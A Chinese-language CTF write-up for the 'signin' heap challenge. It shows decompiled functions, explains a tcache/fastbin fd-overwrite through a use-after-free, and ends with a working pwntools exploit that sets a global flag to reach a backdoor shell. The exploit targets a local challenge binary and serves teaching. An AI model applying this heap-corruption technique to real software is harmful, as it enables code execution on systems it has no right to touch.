

# 新春战“疫” signin

### 0x0 前置补偿

`calloc`函数可以跳过tcache直接在fastbin内申请内存。

tcache机制中，从bin中把chunk链接到tcache中的时候不检查size,(详见tcache_put函数)

### 0x1 分析

看一眼安全性：

```shell
[*] '/root/pwn/signin/signin/pwn'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

地址是固定的，GOT表也可以操作（不过用不到）

逻辑不复杂，`main()`函数中直接进入到`menu`中了，

`menu()`:

```c
unsigned __int64 menu()
{
  int idx; // eax
  __int64 s; // [rsp+0h] [rbp-20h]
  __int64 v3; // [rsp+8h] [rbp-18h]
  unsigned __int64 v4; // [rsp+18h] [rbp-8h]

  v4 = __readfsqword(0x28u);
  printf("your choice?");
  s = 0LL;
  v3 = 0LL;
  memset(&s, 0, 0x10uLL);
  read(0, &s, 0xFuLL);
  idx = atoi((const char *)&s);
  if ( idx == 2 )
  {
    edit();                                     // idx = 2    edit
  }
  else if ( idx > 2 )
  {
    if ( idx != 3 )
    {
      if ( idx == 6 )
        backdoor();                             // idx = 6    shell
      goto LABEL_12;
    }
    del();                                      // idx = 3    delete
  }
  else
  {
    if ( idx != 1 )
    {
LABEL_12:
      puts("no such choice!");
      return __readfsqword(0x28u) ^ v4;
    }
    add();                                      // idx = 1    add
  }
  return __readfsqword(0x28u) ^ v4;
}
```

这里有个后门函数。23333

`backdoor()`:

```c
void __noreturn backdoor()
{
  calloc(1uLL, 0x70uLL);
  if ( ptr )
    system("/bin/sh");
  exit(0);
}
```

里面首先调用`calloc()`函数申请内存，然后，检查`ptr`是否不为`0`.

`add()`

```c
unsigned __int64 add()
{
  unsigned int idx; // [rsp+Ch] [rbp-24h]
  __int64 s; // [rsp+10h] [rbp-20h]
  __int64 v3; // [rsp+18h] [rbp-18h]
  unsigned __int64 v4; // [rsp+28h] [rbp-8h]

  v4 = __readfsqword(0x28u);
  puts("idx?");
  s = 0LL;
  v3 = 0LL;
  memset(&s, 0, 0x10uLL);
  read(0, &s, 0xFuLL);
  idx = atoi((const char *)&s);
  if ( addcnt >= 0 && idx <= 15 )
  {
    ptrlist[idx] = malloc(0x70uLL);             
    flags[idx] = 1;
    --addcnt;
  }
  return __readfsqword(0x28u) ^ v4;
}
```

这里限制申请数为`9(addcnt)`，然后只能申请`0x70 + 0x10`大小的chunk。

`edit()`

```c
unsigned __int64 edit()
{
  int idx; // ST0C_4
  __int64 s; // [rsp+10h] [rbp-20h]
  __int64 v3; // [rsp+18h] [rbp-18h]
  unsigned __int64 v4; // [rsp+28h] [rbp-8h]

  v4 = __readfsqword(0x28u);
  if ( cnt >= 0 )
  {
    puts("idx?");
    s = 0LL;
    v3 = 0LL;
    memset(&s, 0, 0x10uLL);
    read(0, &s, 0xFuLL);
    idx = atoi((const char *)&s);
    read(0, ptrlist[idx], 0x50uLL);             // < 0x50 
    --cnt;
  }
  return __readfsqword(0x28u) ^ v4;
}
```

这里`edit`函数不检查`flag`直接可以编辑内存。但是`cnt`初始化为`0`，也就是只能编辑一次内存。

`delete()`

```c
unsigned __int64 del()
{
  unsigned int idx; // [rsp+Ch] [rbp-24h]
  __int64 s; // [rsp+10h] [rbp-20h]
  __int64 v3; // [rsp+18h] [rbp-18h]
  unsigned __int64 v4; // [rsp+28h] [rbp-8h]

  v4 = __readfsqword(0x28u);
  puts("idx?");
  s = 0LL;
  v3 = 0LL;
  memset(&s, 0, 0x10uLL);
  read(0, &s, 0xFuLL);
  idx = atoi((const char *)&s);
  if ( idx <= 15 && flags[idx] == 1 )
  {
    free(ptrlist[idx]);
    flags[idx] = 0;
  }
  return __readfsqword(0x28u) ^ v4;
}
```

这里看来是不能double free ，但是没有把指针置零，可以编辑。

但是，可以先填满tcache，然后再释放的块就会进入fastbin，然后用`edit`函数更改`fd`指针指向`ptr - 0x10`，修改`ptr`为`True`，调用后门函数，完成。

[另外还有一种方法。](https://www.anquanke.com/post/id/199540#h3-32)

### 0x2 EXP

```python
#! /usr/bin/python
#-*- coding: utf-8 -*-
from pwn import *
context.log_level = 'debug'
context.terminal = ['tmux', 'splitw', '-h']

p = process('./pwn')

def debug(p, cmd):
  '''cmd = 'b *%d\n' %(proc_base+breakaddr)'''
  gdb.attach(p, cmd)
  pause()

def add(p, idx):
  p.sendlineafter("your choice?", '1')
  p.sendlineafter("idx?", str(idx))

def delete(p, idx):
  p.sendlineafter("your choice?", '3')
  p.sendlineafter("idx?", str(idx))

def edit(p, idx, content):
  p.sendlineafter("your choice?", '2')
  p.sendlineafter("idx?", str(idx))
  p.sendline(content)

#full tcache 
for i in range(7):
  add(p, i)
#idx to fastbin
add(p, 7)
#full tcache and add to fastbin
for i in range(8):
  delete(p, i)
#change bss
add(p, 1)
edit(p, 7, p64(0x4040C0 - 0x10))

p.sendlineafter("your choice?", '6')
p.interactive()

```




